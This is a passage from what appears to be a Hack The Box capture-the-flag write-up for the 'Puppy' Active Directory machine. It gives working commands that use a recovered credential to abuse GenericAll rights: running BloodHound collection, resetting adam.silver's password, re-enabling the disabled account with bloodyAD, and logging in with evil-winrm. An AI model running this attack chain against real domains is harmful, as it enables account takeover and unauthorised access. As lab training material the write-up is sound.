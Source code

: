 Looks like we only have 1 valid credential - `ant.edwards:Antman2025!`

## User
Going back to bloodhound, we can run nxc again to update our bloodhound data and gather any new data that we can
```
nxc ldap dc.puppy.htb -u puppy.htb\\ant.edwards -p 'Antman2025!' --bloodhound --collection All -d PUPPY.HTB --dns-server 10.10.11.70
```

We can then re-upload the extracted data, which should be relatively quicker than the first time around.

Now let's see what permissions we get using `ant.edwards` account.
![bloodhound ant edwards](/images/htb/machines/Puppy/bloodhound-ant.png)

Similar to our initial Foothold, we see that `ant` has *GenericAll* permissions for `Adam.Silver` account - full control of the user allows us to modify properties of the user as needed.

Bloodhound is nice enough to give us methods to abuse this as well :) Let's change the user's password using the recommended command - 
```
 net rpc password "adam.silver" 'pir4cy1sc00l!' -U "puppy.htb"/"ant.edwards"%'Antman2025!' -S "dc.puppy.htb"
```

Another roadblock that comes up is that Adam's account is currently disabled. We can use a nifty tool here called `bloodyAD` to change that - 
```
bloodyAD --host 10.10.11.70 -d PUPPY.HTB -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

![bloodyAD](/images/htb/machines/Puppy/bloodyAD-account-enable.png)

Now we should have access to `adam.silver`'s account. 
![adam silver owned](/images/htb/machines/Puppy/adam-silver-owned.png)

Let's update this on bloodhound and see what we can get from Adam's account.
![adam remote access](/images/htb/machines/Puppy/adam-silver-access.png)

Testing credentials with `nxc winrm` mode.
![nxc winrm](/images/htb/machines/Puppy/adam-silver-nxc-winrm.png)

Now we can launch `evil-winrm` and get our flag - 
```
evil-winrm -i dc.puppy.htb -u 'adam.silver' -p 'pir4cy1sc00l!'
```


![user pwn](/images/htb/machines/Puppy/user-pwned.png)


## Privilege Escalation
With our newfound privileges, we can snoop around and enumerate the file system as much as possible. 
